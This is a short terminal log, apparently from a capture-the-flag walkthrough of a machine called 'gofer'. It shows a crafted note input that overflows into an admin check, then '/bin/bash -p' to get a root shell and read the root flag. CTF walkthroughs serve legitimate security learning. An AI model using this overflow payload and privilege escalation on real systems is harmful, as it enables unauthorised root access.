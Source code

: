 ```bash
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 4

Write your note:
111111111111111111111111admin
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 8

Access granted!
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 9

tbuckley@gofer:~$ /bin/bash -p
bash-5.1# cat /root/root.txt
4eca09056a----------------------
bash-5.1# 
```

